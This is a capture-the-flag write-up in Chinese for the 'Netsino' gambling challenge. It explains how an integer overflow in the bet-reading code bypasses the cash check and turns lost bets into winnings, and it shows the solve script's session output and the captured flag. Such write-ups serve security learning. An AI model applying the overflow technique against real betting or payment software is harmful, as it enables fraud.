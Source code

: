 # Netsino
[netsino.c](netsino.c) 在讀數字用的`getnum()`
 * `num`型別是`uint64_t`，可回傳的卻是long
  * long: 在不同機器上，有可能只介於+-(2^31-1)之間，實際測試確實是`[-2^31+1, 2^31-1]`
  * LONG_MAX: >= `2^31-1`，實際測試後，發現`LONG_MAX = 2^32-1`
   * `bet = (1 << 32)`，時，顯示會得到的金額皆為0，因為剛好overflow了！
```
$ python solve.py
Arr, git ye into me casio, the hottest gamblin' sensation on the net!
Here, take twenty, and let's gamble!
You've got $20. How much you wanna bet on this next toss?
> 4294967296
4294967296
1: EVEN. Win your bet back plus an additional $0 if the dice sum even.
2: ODDS. Win your bet back plus an additional $0 if both dice roll odd.
3: HIGH. Win your bet back plus an additional $0 if the dice sum to 10 or more.
4: FOUR. Win your bet back plus an additional $0 if the dice sum to four.
5: EYES. Win your bet back plus an additional $0 on snake eyes.
```
 * `getbet()`：只要overflow變成<=0，就可以跳過對玩家現金的檢查
 * 在overflow的情況下，如果賭輸了 => **boss會扣錢，而玩家現金會增加**
 * 所以，只要overflow成夠大的負數，就能夠快速取得flag！
## Solve
我使用[pexpect](https://pexpect.readthedocs.org)，自動和server 互動
 * 詳見 [solve.py](solve.py)
```
$ python solve.py
Arr, git ye into me casio, the hottest gamblin' sensation on the net!
Fifty bucks says you'll lose it back to me!
You've got $50. How much you wanna bet on this next toss?
> 2147483648
2147483648
1: EVEN. Win your bet back plus an additional $2147483648 if the dice sum even.
2: ODDS. Win your bet back plus an additional $2147483648 if both dice roll odd.
3: HIGH. Win your bet back plus an additional $2147483648 if the dice sum to 10 or more.
4: FOUR. Win your bet back plus an additional $0 if the dice sum to four.
5: EYES. Win your bet back plus an additional $2147483648 on snake eyes.
What'll it be?
> 5
5
Lets rock 'n' roll!
5 3
Snake eyes! ...not.
Great, I'm fresh outta cash. Take this flag instead.
i_wish_real_casinos_had_this_bug
Git outta here.
flag = ['i_wish_real_casinos_had_this_bug']
```
